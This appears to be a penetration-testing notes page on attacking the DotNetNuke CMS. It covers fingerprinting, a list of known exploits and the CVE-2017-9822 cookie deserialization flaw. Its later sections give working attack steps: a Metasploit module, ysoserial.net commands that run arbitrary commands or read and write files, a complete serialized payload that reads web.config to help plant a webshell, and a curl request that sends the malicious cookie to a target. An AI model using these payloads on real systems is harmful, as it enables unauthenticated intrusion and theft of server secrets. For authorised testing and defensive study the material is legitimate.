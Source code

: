 # DotnetNuke

`DNN` (formerly `DotNetNuke`) is an open-source `Content Management System
(CMS)`, written in `C#` and based on the `.NET` framework. A number of core
features can be expended through a large panel of third-party (or
in-house) apps and modules to extend the `CMS` basic functionalities.

### Identification and discovery

###### Version disclosure

The `/Documentation/License.txt` file, if present, may hold information about
the release year of the `DotNetNuke` version being used by the webserver.

```
DotNetNuke - http://www.dotnetnuke.com
Copyright (c) 2002-2017
by DotNetNuke Corporation
[...]
```

###### Robots.txt

By default, `DotNetNuke` installation configure a verbose `robots.txt` entry,
listing a number of built-in locations.

```
Disallow: /admin/
Disallow: /App_Browsers/
Disallow: /App_Code/
Disallow: /App_Data/
Disallow: /App_GlobalResources/
Disallow: /bin/
Disallow: /Components/
Disallow: /Config/
Disallow: /contest/
Disallow: /controls/
Disallow: /DesktopModules/
Disallow: /Documentation/
Disallow: /HttpModules/
Disallow: /images/
Disallow: /Install/
Disallow: /js/
Disallow: /Portals/
Disallow: /Providers/
Disallow: /Resources/ContentRotator/
Disallow: /Resources/ControlPanel/
Disallow: /Resources/Dashboard/
Disallow: /Resources/FeedBrowser/
Disallow: /Resources/OpenForceAd/
Disallow: /Resources/Search/
Disallow: /Resources/Shared/
Disallow: /Resources/SkinWidgets/
Disallow: /Resources/TabStrip/
Disallow: /Resources/Widgets/
Disallow: /Activity-Feed/userId/	# Do not index user profiles
```

### Known vulnerabilities

###### ExploitDB exploits (as of 2021-08-08)

```
→ searchsploit DotNetNuke

DotNetNuke - Arbitrary File Upload                                                 | asp/webapps/12700.txt
DotNetNuke - Cookie Deserialization Remote Code Execution (Metasploit)             | windows/remote/48336.rb
DotNetNuke 07.04.00 - Administration Authentication Bypass                         | asp/webapps/39777.txt
DotNetNuke 4.0 - HTML Injection                                                    | asp/webapps/28615.txt
DotNetNuke 4.8.1 - Default 'ValidationKey' and 'DecriptionKey' Weak Encryption     | windows/remote/31465.cs
DotNetNuke 4.8.3 - 'Default.aspx' Cross-Site Scripting                             | asp/webapps/31865.txt
DotNetNuke 4.9.3 - 'ErrorPage.aspx' Cross-Site Scripting                           | asp/webapps/33009.txt
DotNetNuke 5.5.1 - 'InstallWizard.aspx' Cross-Site Scripting                       | asp/webapps/35045.txt
DotNetNuke 6.1.x - Cross-Site Scripting                                            | asp/webapps/38696.txt
DotNetNuke 9.3.2 - Cross-Site Scripting                                            | multiple/webapps/47449.txt
DotNetNuke 9.5 - File Upload Restrictions Bypass                                   | aspx/webapps/48125.txt
DotNetNuke 9.5 - Persistent Cross-Site Scripting                                   | aspx/webapps/48124.txt
DotNetNuke < 9.4.0 - Cross-Site Scripting                                          | multiple/webapps/47448.py
DotNetNuke DNNArticle Module 10.0 - SQL Injection                                  | php/webapps/27602.txt
DotNetNuke DNNarticle Module 11 - Directory Traversal                              | windows/webapps/44414.txt
DotNetNuke DNNspot Store 3.0.0 - Arbitrary File Upload (Metasploit)                | windows/webapps/35039.rb
DotNetNuke DreamSlider 01.01.02 - Arbitrary File Download (Metasploit)             | aspx/webapps/43405.rb
SharePoint 2007/2010 and DotNetNuke < 6 - File Disclosure (via XEE)                | windows/webapps/17873.txt
```

######  Cookie Deserialization Remote Code Execution (CVE-2017-9822)

A deserialization vulnerability is present in the `DotNetNuke (DNN)` CMS,
versions `5.0.0` to `9.3.0-RC`, which can be leveraged to remotely execute code
on the underlying system without authentication. The vulnerability lies in the
deserialization of the `DNNPersonalization` cookie (`XML` format), used to
store (authenticated or unauthenticated) user's preferences. This cookie is
notably processed during handling of `404` errors if the built-in default
`DNN`'s missing page is used.

While the object `type` to deserialize is user-controlled in the
`DNNPersonalization` cookie, the `XmlSerializer` class (used by `CNN` for the
processing) cannot be used to serialize / deserialize types with interface
members. As stated in the
[original research paper](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-Json-Attacks.pdf),
the `ObjectDataProvider` class can be used in combination with one of the
following methods:
  - `XamlReader.Load(String)`, leading to remote code execution.
  - `ObjectStateFormatter.Deserialize(String)`, leading to remote code
    execution.
  - `DotNetNuke.Common.Utilities.FileSystemUtils.PullFile(String)`, for
    arbitrary file write (for example to upload a `webshell` if a writable
    path can be found).
  - `DotNetNuke.Common.Utilities.FileSystemUtils.WriteFile(String)`, for
    arbitrary file read.

Note that the usable types may be limited to `DotNetNuke.*` classes (and thus
to arbitrary file read / write).

The initial vulnerability is identified by `CVE-2017-9822`, with a number of
bypass of the attempts at fixing the initial bug identified as
`CVE-2018-15811`, `CVE-2018-15812`, `CVE-2018-15825`, and `CVE-2018-15826`.

The following `DotNetNuke` versions are vulnerable:
  - `5.0.0 to 9.1.0`
    ([CVE-2017-9822](https://www.cvedetails.com/cve/CVE-2017-9822/))
  - `9.1.1` ([CVE-2018-15811](https://www.cvedetails.com/cve/CVE-2018-15811/))
  - `9.2 to 9.2.1`
    ([CVE-2018-15811](https://www.cvedetails.com/cve/CVE-2018-15811/))
  - `9.2.2 to 9.3.0-RC`
    ([CVE-2018-15825](https://www.cvedetails.com/cve/CVE-2018-18325) and
    [CVE-2018-15825](https://www.cvedetails.com/cve/CVE-2018-18325))

###### Metasploit module (for pre and post CVE-2017-9822 patching exploit)

The `Metasploit`'s `exploit/windows/http/dnn_cookie_deserialization_rce` module
can be used to exploit the deserialization remote code execution vulnerability,
prior to the initial patching `CVE-2017-9822` and using the subsequent bypass.

The "[How to exploit the DotNetNuke Cookie
Deserialization](https://pentest-tools.com/blog/exploit-dotnetnuke-cookie-deserialization/)"
blog post can be consulted for information on how to exploit the vulnerability
using `metasploit` depending on the targeted version.

```
msf > use exploit/windows/http/dnn_cookie_deserialization_rce
```

###### Pre-patching exploitation (CVE-2017-9822) using ysoserial

`ysoserial.net` can be used to generate `DotNetNuke` cookies that will result
in the execution of the specified command or arbitrary read / write of the
given file against `DotNetNuke` version `5.0.0 to 9.1.0`.

```
.\ysoserial.exe -p DotNetNuke -m run_command -c "<COMMAND>"
.\ysoserial.exe -p DotNetNuke -m read_file -f "<FILE | FILE_FULL_PATH>"
.\ysoserial.exe -p DotNetNuke -m write_file -u "<FILE_TO_FETCH_URL>" -f "<FILE>"


# Retrieves the "web.config" configuration file (in its default location) in order to identify the webserver hosted directories for the upload o a webshell.
.\ysoserial.exe -p DotNetNuke -m read_file -f C:\DotNetNuke\web.config
<profile><item key="name1: key1" type="System.Data.Services.Internal.ExpandedWrapper`2[[DotNetNuke.Common.Utilities.FileSystemUtils],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"><ExpandedWrapperOfFileSystemUtilsObjectDataProvider xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"><ExpandedElement/><ProjectedProperty0><MethodName>WriteFile</MethodName><MethodParameters><anyType xsi:type="xsd:string">C:\DotNetNuke\web.config</anyType></MethodParameters><ObjectInstance xsi:type="FileSystemUtils"></ObjectInstance></ProjectedProperty0></ExpandedWrapperOfFileSystemUtilsObjectDataProvider></item></profile>
```

The generated serialized cookie can then be sent to a non-existing page using,
for example, the `curl` utility:

```
curl -i -s -k -X 'GET' \
    -b '.DOTNETNUKE=;DNNPersonalization=<SERIALIZED_PAYLOAD>' \
    'http://10.10.110.10/pagedoesnotexist123456789abc'
